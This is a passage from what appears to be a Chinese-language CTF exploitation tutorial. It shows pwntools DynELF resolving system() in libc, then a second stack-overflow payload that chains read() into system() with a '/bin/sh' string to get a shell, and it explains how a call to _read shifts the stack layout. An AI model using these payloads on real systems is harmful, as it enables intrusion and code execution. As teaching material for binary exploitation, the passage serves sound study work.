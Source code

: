 4. 接下来就需要创建 DynELF 类来使用

```
#注释头
 
d = DynELF(leak, elf = elf)
#创建DynELF类，传入需要泄露的地址，从elf文件中获取
system_addr = d.lookup('system', 'libc')

```

5. 找到 system_addr 之后，就可以通过再次利用栈溢出来读取字符串，因为之前 write 的返回地址已经是最开始的 start 地址。再次运行到 read 函数读取第二次的 payload，组成为：

```
#注释
 
payload = padding
payload += read_addr       #覆盖eip，将sub_80483F4函数的返回地址劫持到read函数)
payload += system_addr     #使得read函数的返回地址为system)
payload += p32(fd)         #read函数的第一个参数，同时也对应system函数的返回地址
payload += p32(binsh_addr) #read函数读取进binsh的地址，同时也对应system函数的参数
payload += p32(size)       
#read函数的第三个参数，读取的字符串大小，于system函数无实际意义，但是如果system函数返回了，那么这就是返回之后的eip，下一条执行的代码地址。

```

6. 程序总流程如下：

由于第一段 Payload 最后 write 调用后返回到了 start，所以又调用 sub_80483F4 函数，进入读取界面，需要输入第二段 payload 栈溢出，劫持 sub_80483F4 函数的返回地址 eip 为 read 函数地址，从而进入 read 函数。之后再次劫持 read 函数的返回地址为 system 函数，并且将 read 的第二个参数，也就是读取进的 binsh 字符串也传入 system 函数，从而 getshell。

▲call _read 函数和直接调用 read_plt 的区别：

1.call _read 函数会 push eip，会使得栈中结构从我们原本设置好的：

```
#注释头
 
padding
(call read_addr)_addr
system_addr
fd
binsh_addr
size

```

变成:

```
#注释头
 
padding
(call read_addr)_addr
(call read_addr)_addr下一条指令
system_addr
fd
binsh_addr
size

```
